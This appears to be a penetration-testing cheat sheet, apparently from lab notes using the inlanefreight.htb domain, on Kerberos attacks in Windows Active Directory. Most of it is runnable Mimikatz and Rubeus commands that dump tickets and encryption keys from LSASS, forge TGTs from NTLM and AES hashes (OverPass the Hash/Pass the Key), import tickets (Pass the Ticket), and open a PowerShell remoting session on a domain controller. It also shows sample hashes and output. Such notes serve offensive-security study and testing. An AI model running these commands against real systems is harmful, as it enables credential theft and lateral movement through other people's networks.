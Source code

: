 # Content 
- [Harvesting Kerberos Tickets from Windows](#harvesting-kerberos-tickets-from-windows)
  - [Mimikatz - Export Tickets](#mimikatz---export-tickets)
  - [Rubeus - Export Tickets](#rubeus---export-tickets)
- [Pass the Key or OverPass the Hash](#pass-the-key-or-overpass-the-hash-get-tgt)
  - [Mimikatz - Extract Kerberos Keys](#mimikatz---extract-kerberos-keys)
  - [Mimikatz - Pass the Key or OverPass the Hash](#mimikatz---pass-the-key-or-overpass-the-hash)
  - [Rubeus - Pass the Key or OverPass the Hash](#rubeus---pass-the-key-or-overpass-the-hash)
- [Pass the Ticket (PtT)](#pass-the-ticket-ptt-get-tgs)
  - [Rubeus - Pass the Ticket](#rubeus---pass-the-ticket)
  - [Mimikatz - Pass the Ticket](#mimikatz---pass-the-ticket)
  - [Mimikatz - PowerShell Remoting with Pass the Ticket](#mimikatz---powershell-remoting-with-pass-the-ticket)
  - [Rubeus - PowerShell Remoting with Pass the Ticket](#rubeus---powershell-remoting-with-pass-the-ticket)

- On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. 
- Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

## Steps 
1) get Kerberos keys
2) use Kerberos keys to get TGT
3) use TGT to get TGS


## Harvesting Kerberos Tickets from Windows
We need a valid Kerberos ticket to perform a Pass the Ticket (PtT). It can be:
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.
- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.



Note: 
1. The tickets that end with $ correspond to the computer account, which needs a ticket to interact with the Active Directory.
2. User tickets have the user's name, followed by an @ that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi` .
3. If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.
4. 
```
At the time of writing, using Mimikatz version 2.2.0 20220919, if we run "sekurlsa::ekeys" it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in base64 format.
```


### Mimikatz - Export Tickets

```powershell
mimikatz.exe privilege::debug "sekurlsa::tickets /export"
```

### Rubeus - Export Tickets

```powershell
Rubeus.exe dump /nowrap
```


## Pass the Key or OverPass the Hash (Get `TGT`)
- The Pass the Key or OverPass the Hash approach converts a **hash/key** (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`.
- To forge our tickets, we need to have the user's hash
- we can use Mimikatz to dump all users Kerberos encryption keys using the module sekurlsa::ekeys. This module will enumerate all key types present for the Kerberos package.
- once we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using Mimikatz and Rubeus.
- Modern Windows domains (functional level 2008 and above) use `AES` encryption by default in normal Kerberos exchanges.
- If we use a `rc4_hmac` (NTLM) hash in a Kerberos exchange instead of an` aes256_cts_hmac_sha1 (or aes128) key`, it may be detected as an "encryption downgrade." 

### Mimikatz - Extract Kerberos Keys

```powershell
mimikatz.exe privilege::debug "sekurlsa::ekeys"
```
after we got the keys we can use Mimikatz or Rubeus to Get the `TGT`

### Mimikatz - Pass the Key or OverPass the Hash 
This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f"
```
### Rubeus - Pass the Key or OverPass the Hash 
Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

```powershell
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

## Pass the Ticket (PtT) (Get `TGS`)
Now that we have some Kerberos tickets `TGT` , we can get some `TGS` and use them to move laterally within an environment.

### Rubeus - Pass the Ticket
```powershell
## import the TGS in the session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
## import a existing TGS file
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

## access another user files
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$


# Pass the Ticket - Base64 Format
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>

## access another user files
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$
```

### Mimikatz - Pass the Ticket
```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

```


### Mimikatz - PowerShell Remoting with Pass the Ticket

```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
```

### Rubeus - PowerShell Remoting with Pass the Ticket

```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session and connect to the DC using PowerShell Remoting.

```powershell
 Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```
